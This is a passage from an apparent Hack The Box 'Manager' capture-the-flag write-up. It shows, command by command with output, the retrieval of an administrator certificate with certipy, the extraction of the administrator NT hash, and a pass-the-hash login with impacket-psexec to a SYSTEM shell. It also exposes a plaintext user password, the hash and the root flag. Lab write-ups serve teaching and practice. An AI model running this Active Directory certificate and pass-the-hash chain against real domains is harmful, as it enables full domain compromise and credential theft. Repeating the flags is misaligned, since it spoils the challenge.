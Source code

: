 ```

└─# certipy req -username raven@manager.htb -password R4v3nBe5tD3veloP3r\!123 -ca "manager-DC01-CA" -target 10.10.11.236 -target 10.10.11.236 -retrieve 53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 53
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '53.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
Now we get the TGT and pull the hash for you:
```
└─# certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

**Use psexec to log in as administrator with Pass-The-Hash:**
```
└─# impacket-psexec manager.htb/administrator@manager.htb  -hashes 'aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef' -dc-ip 10.10.11.236
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on manager.htb.....
[*] Found writable share ADMIN$
[*] Uploading file LsSKFMwN.exe
[*] Opening SVCManager on manager.htb.....
[*] Creating service dGEG on manager.htb.....
[*] Starting service dGEG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
C:\Windows\system32> whoami
nt authority\system
 Directory of C:\Users\Administrator\Desktop

09/28/2023  02:27 PM    <DIR>          .
09/28/2023  02:27 PM    <DIR>          ..
10/22/2023  10:25 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,141,904,896 bytes free

C:\Users\Administrator\Desktop> type root.txt
a910d3535f35ec14c25f669e4139f421


 Directory of C:\Users\Raven\Desktop

07/27/2023  08:24 AM    <DIR>          .
07/27/2023  08:24 AM    <DIR>          ..
10/22/2023  10:25 PM                34 user.txt
```